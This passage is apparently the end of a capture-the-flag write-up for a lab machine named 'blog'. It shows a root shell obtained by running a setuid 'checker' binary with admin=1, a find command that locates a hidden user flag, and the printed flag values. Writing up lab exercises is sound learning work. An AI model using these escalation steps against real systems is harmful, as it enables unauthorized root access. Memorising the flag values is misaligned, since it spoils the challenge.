 
We can do the following in order to get a root shell:

```
admin=1 /usr/sbin/checker /bin/sh
```

![Pasted image 20250328153450.png](../../IMAGES/Pasted%20image%2020250328153450.png)

Let's try reading flags:

```
root@blog:/tmp# cat /home/bjoel/user.txt
You won't find what you're looking for here.

TRY HARDER
```

We need to find the real flag, let's do this:

```
find / -user bjoel \( -name "*flag*" -o -name "*user*" \) 2>/dev/null
/home/bjoel/user.txt
/media/usb/user.txt
```

We got it:

```
root@blog:/tmp# cat /media/usb/user.txt
c8421899aae571f7af486492b71a8ab
```

```
root@blog:/tmp# cat /root/root.txt
9a0b2b618bef9bfa7ac28c1353d9f318
```
